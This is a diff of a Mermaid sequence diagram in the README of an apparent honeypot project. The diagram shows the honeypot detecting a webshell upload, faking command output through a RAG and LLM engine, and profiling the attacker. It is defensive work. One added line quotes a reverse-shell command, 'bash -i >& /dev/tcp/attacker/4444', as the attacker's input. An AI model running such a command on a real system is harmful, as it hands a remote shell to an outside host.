

The third of 7 diagrams in README.md (Mark-Meka/Maze-Myth-Dynamic-Honeypot), drawn with Mermaid before and after one commit. The commit also changed other lines of this file and 2 other files, not shown here.

````diff
--- a/README.md
+++ b/README.md
@@ -55,31 +77,48 @@
 ```mermaid
 sequenceDiagram
-    participant A as Attacker
-    participant H as Honeypot
-    participant RAG as Shell RAG
-    participant I as Intel
+    actor A as 🎭 Attacker
+    participant H as Honeypot (8001)
+    participant Intel as AttackerIntel
+    participant RAG as Shell RAG Engine
+    participant LLM as Gemini AI
 
-    A->>H: GET /attachments.php
-    H->>I: record_form_view(ip)
-    H-->>A: PHP upload form
+    A->>H: GET /clientportal/support/attachments.php
+    H->>Intel: record_form_view(ip, endpoint)
+    H-->>A: Realistic PHP upload form (Apache/2.4.54 headers)
 
-    Note right of A: POST shell.php webshell
-    H->>I: record_upload(ip,file)
-    Note over H: Detects webshell - no disk write
-    H-->>A: Success + URL
+    Note over A: Uploads shell.php with webshell code
 
-    A->>H: GET /shell.php?cmd=whoami
-    H->>I: record_cmd(ip,cmd)
-    H->>RAG: resolve(whoami)
-    Note over RAG: Cache > TF-IDF > LLM fallback
-    RAG-->>H: www-data
+    A->>H: POST /clientportal/support/attachments.php
+    H->>Intel: record_upload(ip, filename, bytes, endpoint)
+    Note over H: _analyze_file() → 18 payload tag patterns<br/>_contains_webshell_code() → 13 regex checks<br/>Register in _shell_registry — NO disk write
+    H->>Intel: record event → UPLOAD_SHELL (threat=CRITICAL)
+    H-->>A: ✅ Success page + /uploads/shell.php URL
+
+    Note over A: Tries to execute webshell
+
+    A->>H: GET /uploads/shell.php?cmd=whoami
+    H->>Intel: record_webshell_access(ip, cmd)
+    H->>RAG: resolve_shell_command("whoami")
+
+    alt Exact cache (58 ground-truth commands)
+        RAG-->>H: "www-data"
+    else TF-IDF fuzzy match (Cowrie dataset)
+        RAG-->>H: Closest real command output
+    else Gemini LLM fallback
+        RAG->>LLM: Generate realistic output for "whoami"
+        LLM-->>RAG: "www-data"
+        RAG-->>H: "www-data" (cached)
+    end
+
     H-->>A: www-data
 
-    Note right of A: Revshell cmd
-    H->>I: record_revshell(ip)
-    Note over H: Simulate 1.5s timeout
-    H-->>A: Empty response
+    Note over A: Tries reverse shell
 
-    A->>H: GET /dashboard/.../attacker/IP
-    Note over H: Full profile: geo/phase/risk
+    A->>H: GET /uploads/shell.php?cmd=bash -i >& /dev/tcp/attacker/4444
+    H->>Intel: record_command(ip, cmd) → phase=POST_EXPLOIT risk=95
+    Note over H: Simulate 1.5s network hang → EOF
+    H-->>A: (empty — simulated connection refused)
+
+    A->>H: GET /api/dashboard/cve/file-upload/attacker/IP
+    Note over H: Full profile: geo · phase · risk · deception hints
 ```
````
